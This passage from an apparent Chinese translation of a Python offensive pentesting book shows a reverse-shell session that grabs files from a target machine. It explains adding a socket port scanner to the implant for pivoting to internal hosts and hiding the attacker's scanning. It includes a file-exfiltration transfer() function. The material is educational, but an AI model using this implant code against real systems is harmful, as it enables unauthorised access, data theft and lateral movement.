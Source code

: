 一旦我们尝试了之前的脚本，在输入 `cd C:\Users` 后，你将能够看到我们是否已更改或移动到 `Users` 目录：

```
>>>
Shell> cd C:\Users
[+] CWD Is C:\Users
>>>
```

尝试导航到你想要 `grab` 的文件位置。你会注意到，一旦我们在与目标文件相同的目录中，我们就不再需要指定绝对路径。我们可以通过仅指定文件名来直接抓取文件，如下所示：

```
grab*Module 3.pdf 
```

这将使我们能够获取 Kali 机器上的文件。

# 集成低级端口扫描器

在渗透测试中，有时你会遇到这样的场景：你的客户使用某种无法通过互联网访问的内部服务器。仅仅因为这个原因，他们认为这个服务器是安全的。在这一部分，我们将看到如何将一个简单的端口扫描器与我们的脚本集成，以防止可能的攻击。

通常，一旦你进入目标机器，你会开始寻找其他可能的目标。例如，如果我们能够访问机器 A，那么我们可以扩展攻击，扫描机器 B，查看该机器上正在运行的端口和服务。其他用途是让目标代表我们扫描在线服务器，以隐藏我们的活动。现在，让我们进入编码部分。我们将构建一个基本的低级扫描器。之所以称之为低级，是因为我们将使用内置的 socket 库，然后在此基础上进行扩展。发送扫描请求的公式或格式是 `scan` 后跟一个空格，然后是 IP 地址，接着是冒号，再然后是端口列表，例如 `scan 10.0.2.15:22,80`：

```
# Python For Offensive PenTest

#Low Level Port Scanner

import socket # For Building TCP Connection
import subprocess # To start the shell in the system
import os

def transfer(s,path):
    if os.path.exists(path):
        f = open(path, 'rb')
        packet = f.read(1024)
        while packet != '':
            s.send(packet) 
            packet = f.read(1024)
        s.send('DONE')
        f.close()

    else: # the file doesn't exist
        s.send('Unable to find out the file')
...
```

现在，首先要做的是去掉第一个字符，所以这部分内容将被移除。然后，我们将把右边的部分分为两部分。第一部分是我们要扫描的 IP 地址，并将其存储在`ip`变量中。第二部分是我们要检查访问状态的端口列表，这将保存在`ports`变量中。为了保持代码简洁，我们创建了一个名为 scanner 的函数来处理这些事情。所以，我们将`socket`对象、`ip`和`ports`变量传递给这个函数。

一旦获取到这些变量，我们将定义`scan_result`作为一个变量，用来存储我们的扫描结果。现在，请记住，端口是用逗号分隔的，例如：`21, 22, 80, 443, 445`。所以我们要做的是，遍历这些端口并尝试通过`socket`库与每个端口建立连接。请注意，我使用了`connect_ex()`函数，当操作成功时，该函数会返回`0`。在我们的案例中，操作成功了，这意味着连接已经建立，并且端口是开放的。否则，端口将是关闭的，或者主机根本无法访问。最后，我们将关闭套接字并重复整个过程，直到最后一个端口。

